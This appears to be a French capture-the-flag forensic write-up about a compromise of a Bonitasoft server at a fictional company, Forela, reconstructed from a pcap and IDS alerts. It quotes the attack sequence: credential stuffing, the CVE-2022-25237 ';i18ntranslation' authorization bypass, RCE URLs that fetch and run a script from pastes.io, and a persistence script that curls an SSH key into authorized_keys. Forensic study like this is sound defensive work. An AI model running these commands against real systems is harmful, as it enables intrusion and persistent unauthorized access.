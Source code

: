 L'entreprise faisant appel à nous s'appelle Forela
Le fichier zip fournit contient un fichier pcap et un fichier d'alertes en JSON.

# Wireshark
On commence par ouvrir le pcap dans Wireshark.
On remarque que :
- La machine 172.31.6.44 est toujours présentes dans les paquets interceptés et communique avec beaucoup d'autres machines
- Les 2000 premiers paquet correspondent surement à un scan réseau avec des duo de paquets TCP pour établir la connexion puis la reset

## Requêtes HTTP
- Une requête est faite sur la machine 172.31.6.44 à l'url http://forela.co.uk:8080/bonita
- En se concentrant sur les requêtes HTTP, on observe de nombreuses requêtes sur l'url /bonita/loginservice avec des tentatives de connexions échouées. Ces connexions se font en utilisant des adresses email des salariés de Forela et des mots de passe différent pour chaque connexion
  -> l'attaquant a certainement récupérer des identifiants et mot de passe des salariés ailleurs et réalise une attaque **Credential stuffing** en les réutilisant sur cette application.
- L'attaquant finit par trouver des identifiants valides et se connecte en tant que seb.broom@forela.co.uk:g0vernm3nt
- Ensuite, il fait une upload le fichier `rce_api_extension.zip` sur le serveur avec l'url /bonita/api/pageUpload, puis il fait la requête : http://forela.co.uk:8080/bonita/API/extension/rce?p=0&c=1&cmd=whoami, ce qui laisse penser que l'attaquant à trouver une RCE
- Il continue avec : http://forela.co.uk:8080/bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
  -> récupération du contenu du fichier /etc/passwd
- Puis : http://forela.co.uk:8080/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
  -> il télécharge quelque chose sur le serveur avec wget
  - Puis : http://forela.co.uk:8080/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
  -> il exécute ce qu'il vient de télécharger avec bash

L'IP de l'attaquant est le 156.146.62.213, puis 138.199.59.221.

# Analyse fichier alerts.json
En ce concentrant sur l'adresse ip 138.199.9.221 comme ip source, on identifie 36 alertes, dont plusieurs exploitent apparemment la CVE-2022-25237 : `Bonitasoft Authorization Bypass and RCE`.

En faisant de même avec l'ip 156.146.62.213, on remarque un grand nombre d'alerte : `Bonitasoft Default User Login Attempt`. C'est donc depuis cet IP que l'attaquant a fait le brute force pour récupérer un compte avant de venir l'exploiter dans un second temps depuis l'IP 138.199.9.221.

## CVE-2022-25237
Cette CVE permet suppose d'avoir un accès utilisateur non privilégié sur l'application.
Ensuite, elle permet de contourner le mécanisme d'autorisation et ainsi d'utiliser des routes privilégié depuis le compte non privilégié.
Pour cela, il faut ajouter la chaine `;i18ntranslation` à la fin de certaines URL.


# Persistence
Avec les analyses précédentes, on a compris que l'attaquant à télécharger un fichier présent sur le site pastes.io, puis qu'il a exécuté ce fichier, certainement pour récupérer un reverse shell sur la machine.

Avec le wireshark, on identifie que le fichier a été récupéré à l'url : https://pastes.io/raw/bx5gcr0et8
On se connecte sur cet url et on trouve le fichier : 
```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```
On comprend alors que l'attaquant a ajouter sa clé SSH aux clés autorisées pour ensuite se connecter en SSH sur le serveur.

## IoC
On calcule le hash MD5 du fichier précédent et de la clé SSH de l'attaquant avec le site : https://www.md5hashgenerator.com/.

On peut aussi ajouter que la technique utilisée pour la persistence correspond à l'ID T1098.004 du MITTRE ATT&CK.